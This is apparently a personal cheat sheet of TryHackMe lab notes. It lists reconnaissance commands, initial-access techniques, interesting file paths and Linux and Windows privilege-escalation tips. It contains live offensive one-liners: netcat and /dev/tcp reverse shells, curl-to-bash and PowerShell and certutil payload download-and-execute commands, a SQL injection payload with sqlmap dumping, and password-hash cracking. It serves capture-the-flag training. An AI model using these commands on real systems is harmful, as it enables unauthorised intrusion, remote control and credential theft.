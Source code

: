 
# Tryhackme Experience
- Index
  - https://gist.github.com/AshtonIzmev/72f33ae4ff93a6603d55959b2b1e8078#file-thm_steps-sh
  - [Reconnaissance](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#reconnaissance)
  - [Initial Access](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#initial-access)
  - [Interesting files and paths](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#interesting-files-and-paths)
  - [Esclation and Tweaks](https://github.com/sumo2001/Prep-Notes/tree/main/tryhackme#esclation-and-tweaks)


### Reconnaissance
- Better to configure etc/hosts
- ss -ltp helps in look after listening network sockets on a host
- Nmap -sC -sV -v target   
  - sV tries to find out which services are running on the target
  - Pn disables the ping command and only scans ports.
  - sC is short form for script scan, based on services availble, it uses sripts to scan more
  - T<0-5>: Set timing template (higher is faster)
  - A Enable OS detection, version detection, script scanning, and traceroute
- gobuster dir -u http://10.10.164.212/ -w /usr/share/wordlists/dirb/common.txt -x php
  - dir fuzzer 
  - x: type of file to fuzz for
- nikto -h target
  - tool for enumerating information from Windows and Samba systems
- enum4linux target
  - tool for enumerating information from Windows and Samba systems 
- smbmap -H target 
  - SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents etc.
- smbclient //target/share
  - Mostly used in null sessions kinda samba exploitable directories
- rustscan -a target
  - The modern NMAp scanner  
- wfuzz -c -f domains -w /usr/share/wordlists/dirb/common.txt -u "http://cybercrafted.thm" -H "Host: FUZZ.cybercrafted.thm" --sc 200,403
  - Subdomain Enumeration 
  - sc:   Show responses with the  specified  code
- NFS Mount
  - sudo showmount -e 10.10.63.208 
  - mkdir /tmp/infosec
  - mount -t nfs 10.10.63.208:/opt/conf /tmp/infosec  
- rsync
  - rsync --list-only rsync://rsync-connect@10.10.190.83/files/sys-internal/
  - cp ~/.ssh/id_rsa.pub authorized_keys
  - rsync authorized_keys rsync://rsync-connect@10.10.190.83/files/sys-internal/.ssh   

### Initial Access
- Searchsploit nagios
  - searchsploit -m php/webapps/blah.txt  -> convert to py shell and read the comments/usage details in the the following code and input accordingly
  - python3 -m http.server 8080
  - Opens up a dedicated python server over the internet to serve files in that directory
  - http://10.9.2.90:8080/shell.sh | bash
 - nc -nlvp 1234
   - Opens up a netcat shell on attacker box for incoming connections 
 - python -c 'import pty; pty.spawn("/bin/bash")'  
   - Upgrade from a dump shell to  bash shell
 - powershell.exe Invoke-WebRequest -Uri https://10.10.10.10/shell.exe -OutFile ./shell.exe && .\shell.exe
   - powershell.exe — this is a shell in windows (other than cmd.exe) it is object oriented and it is the blue teams best friend and a hackers favorite mistress
   - Invoke-WebRequest — powershell module similar to curl
   - Uri — the target URI
   - OutFile — what the file downloaded will be called
   - .\shell.exe — execute the shell.exe in the current working directory
   - Get-Content user.txt
 - certutil.exe -urlcache -split -f http://10.17.8.104:8080/mysqld_evil.exe mysqld.exe
   - To download a payload from a remote server 
- 1' or '1'='1';-- -
  - SQL Injection Payloads 
  - sqlmap -r login.req --level 3 --risk 3 --forms --dump
- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f
  - mkfifo /tmp/f is creating a named pipe at /tmp/f.
  - cat /tmp/f is printing whatever is written to that named pipe and the output of cat /tmp/f is been piped to /bin/sh
  - /bin/sh is running interactively and stderr is redirected to stdout.
  - the output is then piped to nc which is listening on port 1234
  - and the out put is finally redirected to the named pipe again.
  - If we have a ‘PHP system’ remote code exec on the system, we will spawn a proper rev shell using nc

- /bin/bash -i >& /dev/tcp/10.2.96.144/4443 0>&1
  - Load this babe into a .sh file used during cronjob kinda exploits 
  - ?cmd=curl+http://10.2.96.144:8000/rev.sh+|+bash
  - Downloads and executes file
  - [Pentest Monkey Reverse PHP file](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
 - haiti hash
   - Tool to detect type of hash
 - john --wordlist=./rockyou.txt --format=raw-sha1 hash.txt
   - Johnny johnny yes papa, crashing hash yes papa
 - ./ssh2john.py id_rsa > john_rsa
   - Converting an ssh key with a passphrase to john readble format to crack the passphrase
   - used to crack passphrases for id_rsa keys aka priv keys 
 - Considering we have remote access to a host via ssh, and a service is running on xxx port on a remote server : SSH Port forwarding
   - ssh -L 8111:127.0.0.1:8111 sys-internal@10.10.190.83   

### Interesting files and paths
- cd /var/www/html/wordpress/wp-config.php
- doas.conf
  - Check whether SSL is permitted to run as root! [permit nopass plot_admin as root cmd openssl]
  -  doas openssl enc -in "/root/root.txt"  
- SSH SOCKS PROXY
  - 10.10.72.205 is having an another eth1 interface connected with network address 172.16.20.0/24
  - within my local terminal is "ssh -D localhost:9050 -f -N adam@10.10.72.205"  
  - f to put the ssh to the background and -N to make it not execute a remote command
  - editing /etc/proxychains4.conf and adding socks4 127.0.0.1 9050
  - "proxychains nmap -F 172.16.20.0/24"

### Esclation and tweaks
- https://github.com/swisskyrepo/PayloadsAllTheThings
- su user
- sudo -l
- https://gtfobins.github.io/
  - Limuzzzzzz
- https://lolbas-project.github.io/  
  - Windows 
- find / -type f -perm -u=s 2>/dev/null
- getcap -r / 2>/dev/null 
- https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
- curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh



### References and boxes completed
1. https://tryhackme.com/room/techsupp0rt1
2. https://tryhackme.com/room/flatline
3. https://tryhackme.com/room/plottedtms
4. https://tryhackme.com/room/gallery666
5. https://tryhackme.com/room/cybercrafted
6. https://tryhackme.com/room/containme1
7. https://tryhackme.com/room/ide
8. https://tryhackme.com/room/vulnnetinternal
9. 
    

